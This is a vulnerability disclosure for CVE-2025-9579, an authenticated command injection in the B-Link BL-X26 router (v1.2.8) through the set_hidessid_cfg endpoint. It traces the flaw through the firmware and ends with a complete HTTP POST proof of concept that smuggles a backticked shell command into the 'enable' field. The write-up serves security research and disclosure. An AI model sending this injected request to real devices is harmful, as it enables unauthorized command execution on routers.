







# CVE-2025-9579

## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## **Basic Information**

- **Vendor:** B-Link
- **Vendor Website:** https://www.b-link.net.cn/
- **Affected Device Type:** Router
- **Affected Product:** BL-X26
- **Affected Product Version:** v1.2.8

## 1. Vulnerability Overview

B-Link X26 router V1.2.8 version has a command execution vulnerability. Triggering this vulnerability requires authorization. Once the attacker obtains authorization, he can trigger the vulnerability by sending a malicious HTTP POST request.

## 2. Vulnerability Details

When the request path is set_hidessid_cfg, it will enter the processing logic of the sub_44F9F4 function

You can see that two fields are set to values: type and enable. The parameters are then packaged into a JSON object and passed to the bs_SetSSIDHide function.

The bs_SetSSIDHide function is encapsulated in the libshare-0.0.26.so library.

It can be found that bs_SetSSIDHide takes the values of the two json format objects passed in, and then there is a judgment, the type value is sethide2 to bypass this if branch

Here you will find that the command v19 is executed, and v19 is spliced from v7, and v7 is the value enabled, which is the value passed in at the beginning.

Then there is a libc function related command execution

## 3. POC

POST /goform/set_hidessid_cfg HTTP/1.1

Host: 192.168.16.1

Content-Length: 43

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 Edg/139.0.0.0

Accept: application/json, text/javascript, */*; q=0.01

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Origin: http://192.168.16.1

Referer: http://192.168.16.1/admin/more.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: user=admin; platform=0

Connection: keep-alive

 

type=sethide2&enable=`ls>/etc_ro/web/3.txt`

